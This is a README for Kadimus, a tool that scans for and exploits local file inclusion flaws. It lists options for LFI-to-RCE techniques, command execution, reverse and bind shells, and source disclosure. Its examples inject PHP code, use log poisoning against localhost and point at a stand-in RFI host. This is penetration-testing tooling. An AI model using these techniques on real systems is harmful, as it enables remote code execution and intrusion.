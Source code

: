 # Kadimus
LFI Scan &amp; Exploit Tool

## Compile:
### Installing libcurl:
* CentOS/Fedora

```sh
# yum install libcurl-devel
```

* Debian based
```sh
# apt-get install libcurl4-openssl-dev
```
### Installing libpcre:
* CentOS/Fedora

```sh
# yum install libpcre-devel
```

* Debian based
```sh
# apt-get install libpcre3-dev
```

### Installing libssh:

* CentOS/Fedora

```sh
# yum install libssh-devel
```

* Debian based
```sh
# apt-get install libssh-dev
```
### And finally:
```sh
$ git clone https://github.com/P0cL4bs/Kadimus.git
$ cd Kadimus
$ make
```
## Options:
```
  -h, --help                    Display this help menu

  Request:
    -B, --cookie STRING         Set custom HTTP Cookie header
    -A, --user-agent STRING     User-Agent to send to server
    --connect-timeout SECONDS   Maximum time allowed for connection
    --retry-times NUMBER        number of times to retry if connection fails

  Scanner:
    -u, --url STRING            Single URI to scan
    -U, --url-list FILE         File contains URIs to scan
    -o, --output FILE           File to save output results
    --threads NUMBER            Number of threads (2..1000)

  Explotation:
    -t, --target STRING         Vulnerable Target to exploit
    --injec-at STRING           Parameter name to inject exploit
                                (only need with RCE data and source disclosure)

  RCE:
    -X, --rce-technique=TECH    LFI to RCE technique to use
    -C, --code STRING           Custom PHP code to execute, with php brackets
    -c, --cmd STRING            Execute system command on vulnerable target system
    -s, --shell                 Simple command shell interface through HTTP Request

    -r, --reverse-shell         Try spawn a reverse shell connection.
    -l, --listen                port to listen

    -b, --bind-shell            Try connect to a bind-shell
    -i, --connect-to STRING     Ip/Hostname to connect
    -p, --port NUMBER           Port number to connect

    --ssh-port NUMBER           Set the SSH Port to try inject command (Default: 22)
    --ssh-target STRING         Set the SSH Host (Default: Target URI hostname)

    RCE Available techniques

      environ                   Try run PHP Code using /proc/self/environ
      input                     Try run PHP Code using php://input
      auth                      Try run PHP Code using /var/log/auth.log
      data                      Try run PHP Code using data://text

    Source Disclosure:
      -G, --get-source          Try get the source files using filter://
      -f, --filename STRING     Set filename to grab source [REQUIRED]
      -O FILE                   Set output file (Default: stdout)
```

## Examples:

### Scanning:
```
./kadimus -u localhost/?pg=contact -A my_user_agent
./kadimus -U url_list.txt --threads 10 --connect-timeout 10 --retry-times 0
```
### Get source code of file:
```
./kadimus -t localhost/?pg=contact -G -f "index.php%00" -O local_output.php --inject-at pg
```
### Execute php code:
```
./kadimus -t localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -X input
```

### Execute command:
```
./kadimus -t localhost/?pg=/var/log/auth.log -X auth -c 'ls -lah'
```
### Checking for RFI

You can also check for RFI errors, just put the remote url on resource/common_files.txt
and the regex to identify this, example:


```php
/* http://bad-url.com/shell.txt */
<?php echo base64_decode("c2NvcnBpb24gc2F5IGdldCBvdmVyIGhlcmU="); ?>
```

in file:
```
http://bad-url.com/shell.txt?:scorpion say get over here
```
